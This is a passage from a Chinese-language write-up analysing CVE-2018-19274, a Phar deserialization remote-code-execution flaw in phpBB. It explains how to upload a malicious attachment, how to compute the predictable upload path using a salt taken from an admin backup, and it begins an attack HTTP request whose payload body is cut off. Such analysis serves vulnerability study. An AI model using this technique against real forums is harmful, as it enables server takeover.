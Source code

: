 此时已经可以触发反序列化，还需上传包含利用链的恶意附件。

### 上传恶意附件

上传位置为前台发帖附件处:

![11.png](resource/(CVE-2018-19274)PhpBBPhar反序列化远程代码漏洞/media/rId37.png)

处理文件上传的关键函数，以及函数调用栈：

文件位置：`phpBB3/phpbb/plupload/plupload.php`

![12.png](resource/(CVE-2018-19274)PhpBBPhar反序列化远程代码漏洞/media/rId38.png)

在这里函数handle\_upload可以实现多个`chunk`处理。`$this->request->variable`函数根据键名从请求中获取值，首先获取`chunks`的值，并判断`chunk`是否小于2，如果小于就直接返回，如果大于就开始进行多`chunk`处理。

然后进入关键的`temporary_filepath`函数：

![13.png](resource/(CVE-2018-19274)PhpBBPhar反序列化远程代码漏洞/media/rId39.png)

这个就是计算上传文件路径的函数，`$this->temporary_directory`可知为`./files/plupload`，`$file_name`可控，`\phpbb\files\filespec::get_extension($file_name)`获取文件的后缀同样可控，比较麻烦的是`$this->config['plupload_salt']`存在于数据库中，但可以在管理面板中通过备份进行获取。

![14.png](resource/(CVE-2018-19274)PhpBBPhar反序列化远程代码漏洞/media/rId40.png)

`plupload_salt`如下

![15.png](resource/(CVE-2018-19274)PhpBBPhar反序列化远程代码漏洞/media/rId41.png)

此时已经完全可以计算路径

    ./files/plupload/c2f830acec21b6d3a45ff0f5b3f35273_5de5caf862ea58bbb27aff231f06c7f3zip

然后进入函数进行文件写入

![16.png](resource/(CVE-2018-19274)PhpBBPhar反序列化远程代码漏洞/media/rId42.png)

中途会产生一个临时文件，但后面会删除，最后文件名还会增加`.part`后缀。

    ./files/plupload/c2f830acec21b6d3a45ff0f5b3f35273_5de5caf862ea58bbb27aff231f06c7f3zip.part

攻击数据包如下：

    POST /phpBB3/posting.php?mode=post&f=2&sid=a3f8b226bd4ad508d8838284c0cfc332 HTTP/1.1
    Host: www.0-sec.org
    Content-Length: 1909
    Origin: http://bugtest.com
    x-requested-with: XMLHttpRequest
    x-phpbb-using-plupload: 1
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.75 Safari/537.36
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryuHMhmTMPyBMwbiEg
    Accept: */*
    Referer: http://bugtest.com/phpBB3/posting.php?mode=post&f=2&sid=52c63bf06fdeaef60de9b8fba1de97ad
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Connection: close
